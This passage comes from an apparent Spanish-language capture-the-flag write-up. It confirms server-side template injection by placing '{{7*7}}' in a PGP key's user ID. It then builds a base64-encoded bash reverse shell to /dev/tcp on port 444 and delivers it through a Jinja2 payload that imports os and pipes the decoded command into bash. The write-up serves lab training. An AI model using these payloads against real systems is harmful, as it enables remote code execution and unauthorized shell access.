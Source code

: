 Para terminar le damos **save** para guardar cambios, volvemos a generar la clave, firmamos un texto y probamos en el sitio web

```ruby
gpg --armor --export "{{7*7}} <c4rta@email.com>" | sponge pubkey.asc
```

```ruby
echo 'nazuna besto waifu' | gpg --clear-sign
```

Observa como en la respuesta sale un **49**

![](/assets/img/sandworm/8.png)

Eso quiere decir que la operacion se realizo por que el motor de plantillas proceso el payload e inyecto el resultado en la plantilla para luego mostrarlo en el sitio web, y con eso confirmamos que es vulnerable a **SSTI**


Ahora haremos lo mismo de modificar el UID, generar la clave, etc, para conseguir RCE y tener una rev shell


```ruby
echo "bash -c 'bash -i >& /dev/tcp/<tu IP>/444 0>&1'" | base64
```

Y el payload queda asi:

![](/assets/img/sandworm/10.png)

\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NS80NDQgMD4mMScK" | base64 -d | bash').read() }}
